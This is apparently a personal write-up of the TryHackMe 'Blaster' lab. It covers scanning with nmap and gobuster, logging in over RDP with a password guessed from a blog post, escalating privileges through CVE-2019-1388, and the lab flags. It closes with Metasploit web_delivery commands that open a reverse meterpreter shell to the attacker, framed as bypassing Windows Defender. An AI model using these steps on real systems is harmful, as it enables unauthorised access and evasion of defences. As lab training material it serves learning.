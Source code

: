 #Windows #PrivEsc #CVE-2019-1388 #nmap #gobuster #IIS #RDP #metasploit #msfconsole #Evasion 

 - [Zero Day Initiative CVE-2019-1388](https://www.youtube.com/watch?v=3BQKpPNlTSo)
 - [Rapid7 CVE-2019-1388](https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-1388)

This is a THM box/room called [Blaster](https://tryhackme.com/r/room/blaster)

# Enumeration

- Nmap
```
┌──(root㉿kali)-[~/Downloads]
└─# nmap -sVC -Pn -p- 10.10.244.151
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 13:54 PDT
Nmap scan report for 10.10.244.151
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-10-08T21:01:37+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-10-08T21:01:32+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-10-07T20:53:44
|_Not valid after:  2025-04-08T20:53:44
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 411.98 seconds
                                                                
```

- Gobuster
```
┌──(root㉿kali)-[~/Downloads]
└─# gobuster dir -u  http://10.10.244.151 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.151
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 150] [--> http://10.10.244.151/retro/]

```

## Initial Foothold

- At the webpage `http://10.10.244.151/retro` we find posts written by `Wade` (potential username?)
	- On the webpage, we find a Ready Player One post and find a few hints
		- "I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down. Either way, I’m really excited to see this movie! "
		- "Leaving myself a note here just in case I forget how to spell it: parzival"
		- We can infer his login may be `Wade:parzival`

- SUCCESS - we can login as `Wade` with the password `parzival` using RDP

## PrivEsc

- Using CVE-2019-1388, we can elevate privileges using a vulnerability existing in the Windows Certificate Dialog as it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'. 
- [Steps](https://github.com/nobodyatall648/CVE-2019-1388):
	1) find a program that can trigger the UAC prompt screen
		1) `hhpud.exe`
	2) select "Show more details"
	3) select "Show information about the publisher's certificate"
	4) click on the "Issued by" URL link it will prompt a browser interface.
	5) wait for the site to be fully loaded & select "save as" to prompt a explorer window for "save as".
	6) on the File Explorer window address path, enter the `cmd.exe` full path:
	`C:\WINDOWS\system32\cmd.exe` then `Enter`
	7) now you'll have an escalated privileges command prompt. 

- User flag - Wade
```
THM{HACK_PLAYER_ONE}
```

- Root flag
```
THM{COIN_OPERATED_EXPLOITATION}
```

## Gain RevShell using Metasploit and bypass AV:

- Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery!
- For this, we'll be using the script web delivery exploit within Metasploit.
	- `use exploit/multi/script/web_delivery`
	- `set target 2`
	- `set lhost tun0`
	- `set lport 443`
	-  `set payload windows/meterpreter/reverse_http`
	- `run -j
- Now, return to the terminal we spawned with our exploit.
	- In this terminal, paste the command output by Metasploit after the job was launched.
	- In this case, I've found it particularly helpful to host a simple python web server (`python3 -m http.server`) and host the command in a text file as copy and paste between the machines won't always work.
	- Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 
